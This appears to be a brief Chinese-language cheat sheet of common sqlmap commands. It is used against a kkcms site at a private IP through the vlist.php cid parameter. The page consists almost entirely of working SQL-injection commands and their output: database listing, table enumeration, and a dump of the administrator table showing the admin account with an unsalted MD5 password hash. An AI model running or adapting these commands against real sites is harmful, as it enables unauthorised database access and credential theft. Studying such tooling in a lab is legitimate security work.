 sqlmap常用命令

```
// 查看数据库列表
python sqlmap.py -u http://10.3.4.127/vlist.php?cid=1 --dbs

[10:12:55] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] kkcms

// 查看指定数据库
python sqlmap.py -u http://10.3.4.127/vlist.php?cid=1 -D kkcms --tables

+----------------------+
| xtcms_ad             |
| xtcms_adclass        |
| xtcms_book           |
| xtcms_fav            |
| xtcms_link           |
| xtcms_manager        |
| xtcms_nav            |
| xtcms_play           |
| xtcms_player         |
| xtcms_slideshow      |
| xtcms_system         |
| xtcms_user           |
| xtcms_user_card      |
| xtcms_user_cardclass |
| xtcms_user_group     |
| xtcms_user_pay       |
| xtcms_user_visit     |
| xtcms_userka         |
| xtcms_vod            |
| xtcms_vod_class      |
| xtcms_youlian        |
+----------------------+

// 查看表内容
python sqlmap.py -u http://10.3.4.127/vlist.php?cid=1 -D kkcms -T xtcms_manager --dump


+------+--------+-------------------+----------------------------------+----------+------------+------------+----------------------------------+-------------+
| m_id | m_name | m_levels          | m_random                         | m_status | m_loginip  | m_loginnum | m_password                       | m_logintime |
+------+--------+-------------------+----------------------------------+----------+------------+------------+----------------------------------+-------------+
| 1    | admin  | b,c,d,e,f,g,h,i,j | 897de67740645ef418d8915547298d4c | 1        | 2130706433 | 0          | e10adc3949ba59abbe56e057f20f883e | 1503380295  |
+------+--------+-------------------+----------------------------------+----------+------------+------------+----------------------------------+-------------+
```
